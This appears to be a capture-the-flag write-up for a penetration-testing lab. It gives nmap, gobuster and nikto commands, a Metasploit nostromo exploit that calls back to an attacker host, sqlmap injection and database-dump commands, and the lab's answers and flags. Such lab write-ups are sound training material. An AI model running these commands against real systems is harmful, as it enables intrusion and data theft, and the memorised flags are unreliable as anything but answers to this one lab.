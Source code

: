 > CC: Pen Testing

# Nmap

```
export IP=10.10.21.71
```

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

# Gobuster

1. What is the name of the hidden directory?

sudo gobuster -u http://10.10.72.23 -k -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 20 -o gobuster_output

```
/index.html (Status: 200)
/secret (Status: 301)
``` 	

2. What is the name of the hidden file with the extension xxa?

sudo gobuster -u http://10.10.72.23 -w /usr/share/wordlists/DirBuster-Lists/directory-list-2.3-medium.txt -t 20 -x xxa

```
password.xaa
```

# Nikto

nikto -h 10.10.72.23 apacheusers

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.72.23
+ Target Hostname:    10.10.72.23
+ Target Port:        80
+ Start Time:         2020-09-10 15:17:54 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x2c39 0x5989ac7b70f1d 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /secret/: Directory indexing found.
+ OSVDB-3092: /secret/: This might be interesting...
```

# Metasploit

msfconsole

```
use exploit/multi/http/nostromo_code_exec
set LHOST 10.9.12.130
set LPORT 4444
set RHOSTS 10.10.220.124
set TARGETURI /
exploit
```

1. What is the name of the secret directory in the /var/nostromo/htdocs directory?

```
s3cretd1r
```

2. What are the contents of the file inside of the directory?

```
Woohoo!
```

# Sqlmap

1. How many types of sqli is the site vulnerable too?

sudo sqlmap -u  http://10.10.177.183 --forms

```
[16:38:28] [INFO] heuristic (basic) test shows that POST parameter 'msg' might be injectable (possible DBMS: 'MySQL')
[16:38:29] [INFO] heuristic (XSS) test shows that POST parameter 'msg' might be vulnerable to cross-site scripting (XSS) attacks
[16:44:22] [INFO] POST parameter 'msg' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
```

2. Dump the database.

sudo sqlmap -u http://10.10.177.183 --forms -a

```
current database: 'tests'
[16:47:45] [INFO] fetching server hostname
[16:47:45] [INFO] retrieved: 'ubuntu'
```

3. How many tables are in the database?


sudo sqlmap -u http://10.10.177.183 --forms -D tests --dump

```
Database: tests
Table: lol
[1 entry]
+----------+
| flag     |
+----------+
| found_me |
+----------+
[16:52:45] [INFO] table 'tests.lol' dumped to CSV file '/root/snap/sqlmap/7/.local/share/sqlmap/output/10.10.177.183/dump/tests/lol.csv'
[16:52:45] [INFO] fetching columns for table 'msg' in database 'tests'
[16:52:45] [INFO] retrieved: 'msg'
[16:52:46] [INFO] retrieved: 'varchar(100)'
[16:52:46] [INFO] fetching entries for table 'msg' in database 'tests'
[16:52:46] [INFO] retrieved: 'msg'
[16:52:47] [INFO] retrieved: 'test'
Database: tests
Table: msg
[2 entries]
+------+
| msg  |
+------+
| msg  |
| test |
+------+
```